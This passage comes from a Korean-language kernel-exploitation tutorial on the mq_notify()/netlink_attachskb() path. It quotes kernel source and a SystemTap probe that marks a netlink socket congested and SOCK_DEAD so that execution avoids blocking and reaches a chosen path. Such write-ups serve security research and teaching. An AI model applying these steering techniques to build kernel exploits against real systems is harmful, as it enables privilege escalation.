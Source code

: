 앗...아아... *mq\_notify()* 에 대한 호출이 **막혔다**(= main exploit thread가 syscall 안에서 커널 영역에 갇힘). 다행히 *CTRL-C* 를 누르면 다시 조작할 수 있다.

이번엔 **netlink\_attachskb()**가 **0xfffffffffffffe00**를 반환했다는 점에 주목해보자. 이는 "-ERESTARTSYS"의 에러 번호다. 즉 우리는 이 path로 들어온 것이다:

```c
        if (signal_pending(current)) {
            kfree_skb(skb);
            return sock_intr_errno(*timeo); // <---- return -ERESTARTSYS
        }
```

이는 우리가 *netlink\_attachskb()* 의 다른 path에 도달했음을 의미한다. 임무 성공이다!

### Avoid being blocked

*mq\_notify()* 가 막힌 이유는 이것이다:

```c
        __set_current_state(TASK_INTERRUPTIBLE);

        if ((atomic_read(&sk->sk_rmem_alloc) > sk->sk_rcvbuf || test_bit(0, &nlk->state)) &&
            !sock_flag(sk, SOCK_DEAD))
            *timeo = schedule_timeout(*timeo);

        __set_current_state(TASK_RUNNING);
```

*scheduling* 에 대해서는 나중에 더 자세히 다루도록 하고(part 2 참고), 지금은 우리의 task가 *특수한 조건* 을 만족할 때까지 **멈춰있다**는 것만 고려해보자 (wait queue에 대한 것이다).

schedule되거나 block되는 것을 피할 수 있을까? 그렇게 하기 위해선 **schedule\_timeout()**에 대한 호출을 우회해야 한다. sock을 "SOCK\_DEAD"라고 mark해보자 (조건의 마지막 부분). 즉 (전에 했던 것처럼) "sk"의 내용을 바꿔 다음의 **sock\_flag()** 함수가 true를 반환하도록 하는 것이다:

```c
    // from [include/net/sock.h]
    static inline bool sock_flag(const struct sock *sk, enum sock_flags flag)
    {
      return test_bit(flag, &sk->sk_flags);
    }

    enum sock_flags {
      SOCK_DEAD,      // <---- this has to be '0', but we can check it with stap!
      ... cut ...
    }
```

probe를 다시 수정해보자:

```c
  // mark it congested!
  _stp_printf("- (before) nlk->state = %x\n", (nlk->state & 0x1));
  nlk->state |= 1;            
  _stp_printf("- (after) nlk->state = %x\n", (nlk->state & 0x1));

  // mark it DEAD
  _stp_printf("- sk->sk_flags = %x\n", sk->sk_flags);
  _stp_printf("- SOCK_DEAD = %x\n", SOCK_DEAD);
  sk->sk_flags |= (1 << SOCK_DEAD);
  _stp_printf("- sk->sk_flags = %x\n", sk->sk_flags);
```

